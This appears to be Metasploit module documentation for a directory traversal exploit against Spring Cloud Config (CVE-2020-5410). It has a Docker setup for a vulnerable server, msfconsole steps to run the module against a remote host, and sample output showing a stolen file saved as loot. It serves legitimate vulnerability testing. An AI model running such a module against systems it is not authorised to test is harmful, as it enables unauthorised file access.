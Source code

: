 ## Vulnerable Application

This module exploits an unauthenticated directory traversal vulnerability which exists in Spring Cloud Config versions 2.2.x prior to 2.2.3 and 2.1.x prior to 2.1.9, and older unsupported versions. Spring Cloud Config listens by default on port 8888.

**References:** https://tanzu.vmware.com/security/cve-2020-5410 <br>
**Vulnerable Installation Guide:** https://github.com/osamahamad/CVE-2020-5410-POC/blob/master/README.md

```
docker run -it --name=spring-cloud-config-server \
-p 8888:8888 \
hyness/spring-cloud-config-server:2.1.6.RELEASE \
--spring.cloud.config.server.git.uri=https://github.com/spring-cloud-samples/config-repo
```

## Verification Steps

1. `./msfconsole`
2. `use auxiliary/scanner/http/springcloud_traversal2`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested against Linux zero 4.15.0-48-generic #51-Ubuntu SMP x86_64 GNU/Linux

```
msf5 auxiliary(scanner/http/springcloud_traversal2) > run

[+] File saved in: /Users/Dhiraj/.msf4/loot/20200619234552_default_[REDACTED]_springcloud.trav_785232.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/springcloud_traversal2) > 
```
